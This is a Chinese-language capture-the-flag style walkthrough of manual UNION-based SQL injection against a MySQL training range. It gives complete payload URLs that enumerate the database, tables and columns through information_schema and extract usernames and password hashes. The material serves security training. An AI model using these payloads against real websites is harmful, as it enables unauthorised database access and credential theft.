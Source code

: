 ## 一、Mysql介绍

> MySQL 是最流行的关系型数据库管理系统，已被Oracle 收购，推荐使用Maria DB,MariaDB是一个采用Maria存储引擎的MySQL分支版本.

本章用到的函数以及关键字：
  - database()      //查看当前数据库名称
  - union关键字     //联合查询
  - order by   //排序
  - group_concat //合并结果集
  - limi //常用与分页

## 二、漏洞原理

WEB后台对前端提交到后台的用户输入参数没有做限制，将会导致此漏洞。
#### 举例：1
```
    预想中的用户输入：
        1. 前端提交查询一条编号是1的新闻
        2. 此时浏览器发出
            http:\\xxx.com?id=1
        3. 后台程序接收到后,取到id对应的1,开始拼装SQL语句
            select title,content  from news where id  = 1 // 此时的这个1是从前端获取的
        4. 后端返回前端 新闻 内容
    恶意用户输入(此时想知道数据库名称）：
        1. 既然后端未对前端做任何处理,就表示前端可以控制整个查询语句
        2. 前端构造恶意id的值
            http:\\xxx.com?id=-1 union select 1,(database()),3
        3. 此时后台拼装的SQL查询语句就是
            select title,content  from news where id  = -1 union select 1,(database()),3
        4. 得到结果当前数据库名称
```
## 三、 靶场实战

> 此处使用的 __墨者学院__ 的在线靶场

### 开启靶场

```
懒得截图了，入门->web安全->SQL注入->SQL手工注入漏洞测试(MySQL数据库)
```

### 1. 寻找注入点

![SQL注入(一)-手工注入漏洞mysql.png](sources/SQL注入(一)-手工注入漏洞mysql.png)

```
图中箭头所指处为注入点
```

### 2. 判断注入类型 
![判断注入类型](sources/SQL注入(一)-判断注入类型.png)
```
基本套路就是看页面显示
    1. id = 1'  //页面显示空白没有格式  可能是数据库报错，但是没有回显
    2. and 1 = 2 和  and  1 = 1 //查看页面是否只有格式没有数据
```

### 3. 获取目标后台的SQL语句中的select 查询了多少个字段

```
目的：在联合查询时需要用到
使用 order by 1 
        
    order by   // 是用来结果集排序的
    order by 1 // 表示 对结果集 也就是根据 select 所查询的字段中的第一个进行排序
    假设：
        select a,b,c,d from xxx id = 1 
               1 2 3 4
    此时order by 后面就可以写  1 2 3 4 ,表示根据对应的字段来排序
    select a,b,c,d from xxx order by 1 //表示根据对应的字段a来排序
    select a,b,c,d from xxx order by 2 //表示根据对应的字段b来排序
    ...

    当order by 后面的数字没有对应的列时，就会报错，有些报错会提示出来“没有对应的列”
    所以，只需要一直加到页面报错或者不显示内容时，此时的数字-1就是我们猜解出来的字段数
```
![猜解字段数](sources/SQL注入(一)-猜解字段数.png)
```
http://219.153.49.228:40947/new_list.php?id=1 orde by 5
```

### 4. 使用联合查询，查看页面是那个字段在显示数据
```
目的：用于将我们要查询的内容展示在页面上
使用 union select 1,2,3,4

    union           //是用来连接两个查询语句并将结果集合并在一起且去重
    如： select a,b,c from xxx union select 1,2,3,4
    
    union select 1,2,3,4   //后面select 表示查询1,2,3,4  不用跟from 后面内容
    这里的1,2,3,4 就是上面order by才出来的数字

    假设目标站点sql：
        select a,b,c,d from xxx id = 1
    通过我们构造方法后：
        select a,b,c,d from xxx id = 1 union select 1,2,3,4
```
> 后端的执行结果(我们是看不到的)

|a|b|c|d|
|:--:|:--:|:--:|:--:|
|A|B|C|D|
|1|2|3|4|
```
1. 大写字母是union前面id=1的查询语句查询出来的数据
2. 数字是union后面查询语句查出来的数据，因为没有写表，所以就是1,2,3,4
3. 此时页面应该是没有任何变化的，因为后端会从直接结果里面取第一条出来，所以此时可以想办法让数据只有union后面的查询语句，就是让union前面的查询语句的查询结果为空
4. 在union前面可以加 and 1 = 2 让第一条语句一直为false  或者  把id的值等于一个不存在值
5. 构造后代码：-1 union select 1,2,3,4    
6. 此时来查看效果
```
![union联合查询1](sources/SQL注入(一)-union联合查询1.png)
```
此时可以看到2,3位置的数据可以被显示出来,那我们就在2,3任选一处继续 //union 1,2,3,4,
```
### 5. 使用联合查询，查询数据
```
目的：获取最终数据，账号和密码，进而登录系统获取key

在union 后面的查询中使用子查询

    例如：
        获取数据库信息 
        -1 union select 1,2,(select database()),4  //此处把3 替换成一个子查询语句,子查询结果集只能是一个单独的结果集
        或者
        -1 union select 1,2,(database()),4 
        //database()是一个数据库自带函数
```
> 1. 获取数据库名称
```
payload: http://219.153.49.228:40947/new_list.php?id=-1 union select 1,2,(database()),4
```
![获取数据库名称](sources/SQL注入(一)-获取数据库名称.png)

> 2. 获取当前数据库所有表
```
payload: http://219.153.49.228:40947/new_list.php?id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema = database()),4

select table_name from information_schema.tables where table_schema=database() 解释：
Mysql数据库中有一个库是专门存储元数据等相关数据的库，可以通过这个库来查询我们想要的信息，比如：
tables  //这张表保存了 mysql库中所有的数据库和库对应的表信息
columns //这张表保存了 mysql表中所有的元数据等信息
此时的意思就是我要查询information_schema.tables这个表中table_schema这个字段是database()获取到的当前数据库名称的所有表名

详细去百度搜索
```
![获取数据库表名](sources/SQL注入(一)-获取数据库表名.png)
```
结果：
StormGroup_member
notice
```
> 3. 获取数据某个表所有字段(元数据)
```
payload: http://219.153.49.228:46485/new_list.php?id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name = "StormGroup_member"),4
大致意思同上
只是表换成了columns
同时指定了一个明确的表名,是通过上一步获取到的表明中的一个
```
![获取表字段名](sources/SQL注入(一)-获取表元数据.png)
```
结果：
id
name            //我猜是用户名
password        //我猜是密码
status
```

> 4. 获取对应字段数据
```
payload: http://219.153.49.228:46485/new_list.php?id=-1 union select 1,2,(select group_concat(name,'-',password) from StormGroup_member),4

此时表名有了 StormGroup_member  要查的字段也有了 name,password
只需要将SQL查询预计带入就可以了

```
![获取表字段名](sources/SQL注入(一)-获取账号和密码.png)
> 5. MD5解密
```
不做记录
```
> 6. 登录系统，获取Key
```
不做记录
```

## 最后总结
```
没啥好总结的， 就是普通SQL查询语句的应用，会SQL就可以了
古德拜~
```


